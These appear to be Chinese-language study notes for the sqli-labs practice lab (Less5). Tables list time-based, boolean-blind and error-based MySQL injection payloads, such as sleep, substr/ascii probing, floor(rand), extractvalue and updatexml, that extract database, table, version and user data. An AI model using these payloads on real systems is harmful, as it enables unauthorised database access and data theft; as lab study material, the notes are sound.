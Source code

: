  

## 3:基于时间的 SQL 盲注----------延时注入

| If(ascii(substr(database(),1,1))>115,0,sleep(5))%23          | if   判断语句，条件为假， 执行 sleep                         |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| select   sleep(find_in_set(mid(@@version, 1, 1), '0,1,2,3,4,5,6,7,8, 9,.')); | 该语句意思是在   0-9 之间找版本号的第一位。但是在我们实际渗透过程中，这种用法是不可 取的，因为时间会有网速等其他因素的影响，所以会影响结果的判断。 |

 ![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0av8vev7yj20pk08lmxs.jpg)



# Less5

回显错误信息，但是不回显数据库中的数据

## 1.布尔盲注

| 注入语句                                                     | 数据库语句                                                   |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| ?id=1'and   left(version(),1)=5 --+                          | 返回php版本号5.6.17                                          |
| ?id=1'and   length(database())=8 --+                         | 返回数据库语句                                               |
| ?id=1'and left(database(),1)>'a' --+                         | 查看数据库第一位是否大于a                                    |
| ?id=1'and left(database(),1)>'sa' --+                        | 查看数据库前两位是否大于   sa                                |
| ?id=1'and   ascii(substr((select table_name from information_schema.tables where   table_schema=database() limit    0,1),1,1))=101 --+   此处同样的使用二分法进行测试，直到测试正确为止。 此处应该是 101，因为第一个表示 email。 | limit取第一行   substr取数据库第一位的长度                   |
| ?id=1'and   ascii(substr((select table_name from information_schema.tables where   table_schema=database() limit    0,1),2,1))=109 --+ | limit取第一行   substr取数据库第一位的长度                   |
| ?id=1'and   ascii(substr((select table_name from information_schema.tables where   table_schema=database() limit    1,1),1,1))=114 --+ | imit0,1.   意思就是从第 0 个开始，获取第一个。那 要获取第二个是不是就是 limit1,1 |
| ?id=1'   and 1=(select 1 from information_schema.columns where table_name='users' and   table_name regexp '^us[a-z]' limit 0,1)--+   利用 regexp 获取中 users 表中的列 | 选择   users表中的列名是否有 us**的列   select 1 from 这个是什么意思 |
| ?id=1'   and ORD(MID((SELECT IFNULL(CAST(username   AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))= 68--+   ord（）和 mid（）函数获取 users 表的内容 | mid(a,b,c)从位置   b 开始，截取 a 字符串的 c 位   Ord()函数同   ascii()，将字符转为 ascii 值 |

 ![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0avads55pj20ug08v779.jpg)

 

 ![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0avai46xij20vy08hacq.jpg)



 

## 2.报错注入

| 注入语句                                                     | 数据库语句                                                   |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| ?id=1'   union Select 1,count(*),concat(0x3a,0x3a,(select   user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a --+ | explain:此处有三个点，一是需要   concat 计数，二是 floor，取得 0 or 1，进行数据的 重复，三是 group by 进行分组，但具体原理解释不是很通，大致原理为分组后数据计数时 重复造成的错误。也有解释为 mysql 的 bug 的问题。但是此处需要将   rand(0)，rand()需 要多试几次才行 |
| ?id=1'   union select (exp(~(select * from(select user())a))),2,3 --+   select exp(~(select * FROM(SELECT USER())a)) | double   数值类 型超出范围   Exp()为以   e 为底的对数函数；版本在 5.5.5 及其以上   exp 报错文章： <http://www.cnblogs.com/lcamry/articles/5509124.html> |
| ?id=1'   union select (!(select * from (select user())x) - ~0),2,3 --+   select   !(select * from (select user())x) -（ps:这是减号） ~0 | bigint   超出范围；~0 是对 0 逐位取反，很大的版本在 5.5.5 及其以上   bigint   溢出文章 <http://www.cnblogs.com/lcamry/articles/5509112.html> |
| ?id=1'   and extractvalue(1,concat(0x7e,(select   @@version),0x7e)) --+ | xpath   函数报错注入   mysql   对 xml 数据进 行查询和修改的 xpath 函数，xpath 语法错误 |
| ?id=1'   and updatexml(1,concat(0x7e,(select   @@version),0x7e),1) --+ | mysql   对 xml 数据进 行查询和修改的 xpath 函数，xpath 语法错误 |
| ?id=1'union   select 1,2,3 from (select NAME_CONST(version(),1), NAME_CONST(version(),1))x   --+ | 利用数据的重复性                                             |

